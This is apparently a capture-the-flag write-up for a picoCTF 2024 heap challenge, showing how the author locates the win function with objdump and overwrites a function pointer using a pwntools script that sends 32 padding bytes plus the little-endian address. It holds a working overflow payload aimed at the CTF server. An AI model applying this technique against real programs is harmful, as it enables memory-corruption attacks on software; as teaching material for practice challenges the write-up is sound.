 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#heap_<br>

Can you handle function pointers?<br>
Download the binary [here](../chall).<br>
Download the source [here](../chall.c).

## Solution

First, I executed the source code to observe the output. I tried entering different option numbers to see the corresponding results.

![image](https://github.com/user-attachments/assets/acbf2097-01fa-42fb-bfdc-08d69c4b812f)<br>
**From the heap table, we can see that both addresses are the same. This indicates that 32 bytes can be used to reach the boundary.*

I then reviewed the source code to identify any possible way to obtain the flag. Here’s what I discovered:

![image](https://github.com/user-attachments/assets/186485dd-0f6a-47b1-a7d1-d637d8dbc306)<br>
**To retrieve the flag, we need to call the win function.*

In this case, we need to access the win function to obtain the flag. Therefore, we must locate the address of the win function. To do this, I used the command `objdump -D chall > output.txt` to export the output to a .txt file. Search for win in the output.txt file to find its address. Then, convert the address to little-endian format by using [endian converter](https://blockchain-academy.hs-mittweida.de/litte-big-endian-converter/).

![image](https://github.com/user-attachments/assets/8c317638-ed8d-4628-8188-86c9ae43645d)
**The highlighted part is the address of win function.*

> [!NOTE]
> When writing payload scripts, little-endian format must be used.

```python
from pwn import *

p = remote('mimas.picoctf.net', 64646)

p.sendline(b"2")
p.recvuntil(b"buffer:")
p.sendline(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\x00\x00\x00\x00\x00")

p.recvuntil(b"choice:")
p.sendline(b"4")
print(p.recvall())
```
**This is the payload script that we'll use.*

Run the script in an environment, and you'll obtain the flag.
